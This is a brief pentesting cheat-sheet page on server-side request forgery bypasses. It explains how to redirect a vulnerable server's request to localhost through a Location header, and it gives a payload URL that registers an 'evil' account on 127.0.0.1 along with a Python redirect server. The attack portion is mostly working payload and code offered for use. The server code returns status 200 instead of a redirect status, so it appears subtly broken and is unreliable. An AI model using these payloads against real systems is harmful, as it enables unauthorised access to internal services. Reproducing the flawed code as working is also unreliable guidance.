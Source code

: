 ```yaml
---
description: Perform actions on the servers behalf
---
```


# Server Side Request Forgery

## Bypasses

### Localhost

#### Using the location header to perform a redirect to 127.0.0.1

Since it is possible to pass parameters in a redirect via location header you can use a link for a redirect to `localhost` if you're lucky enough to have a function that accepts query parameters, follows redirects & does not block connections to the internet

> If the target does not block connections to the internet you can use [bitly](https://bitly.com/) for this purpose, otherwise it is also possible to set up your own http server and implement a redirect via location header

**Payload**

```text
http://127.0.0.1/register?username=evil&password=evilpass&confirm=evilpass
```

#### Implementation via own http server

```text
from http.server import HTTPServer, BaseHTTPRequestHandler


class pyhandler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.send_header('Location', 
        'http://127.0.0.1/register?username=evil&password=evilpass&confirm=evilpass')
        self.end_headers()


class pyhttp(object):
    def __init__(self, server_class=HTTPServer, 
                 handler_class=pyhandler):
        self.address = server_address = ('', 80)
        self.httpd = server_class(server_address, handler_class)
        self.httpd.serve_forever()


pyhttp()

```



